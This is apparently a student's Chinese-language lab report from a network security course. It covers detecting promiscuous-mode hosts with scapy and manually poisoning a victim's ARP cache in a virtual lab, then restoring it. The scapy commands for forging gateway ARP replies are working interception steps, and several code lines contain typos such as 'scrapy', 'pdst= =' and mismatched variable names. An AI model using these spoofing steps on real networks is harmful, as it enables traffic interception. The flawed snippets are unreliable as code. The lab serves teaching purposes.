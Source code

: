 # 第四章 网络监听实验

## 一、网络拓扑

### 网络拓扑

![](IMG\topology.png)

### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130

## 二、实验准备

### 安装scapy

```
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![](IMG\scapy_install.png)

## 三、实验过程

### 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![](IMG\ip_link _show.png)

```
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy

```

![](IMG\start_scapy.png)

```
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![](IMG\scapy_pkt.png)

```
# 回到受害者主机开启网卡的混杂模式
# 注意上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![](IMG\set_promisc.png)

![](IMG\ip_link_show_promisc.png)

```
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![](IMG\pkt_difference.png)

受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

![](C:\Users\111\Desktop\IMG\set_promisc_off.png)



### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```

![](IMG\arpbroadcast.png)

```
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![](IMG\arpspoofed.png)

此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```
ip neigh
```

![](IMG\replace_mac.png)

继续回到攻击者主机scapy终端

```
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)

## (选做)
restorepkt2 = Ether()/ARP(op=2,pdst="172.16.111.1",hwdst="08:00:27:ff:b8:28",psrc="172.16.111.130",hwsrc="08:00:27:c5:c0:21")
```

![](IMG\restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```
# 在受害者主机上尝试ping网关
ping 172.16.111.1

# 等ARP缓存刷新成功，退出ping

# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![](IMG\recover_gw.png)

## 四、参考资料

[网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

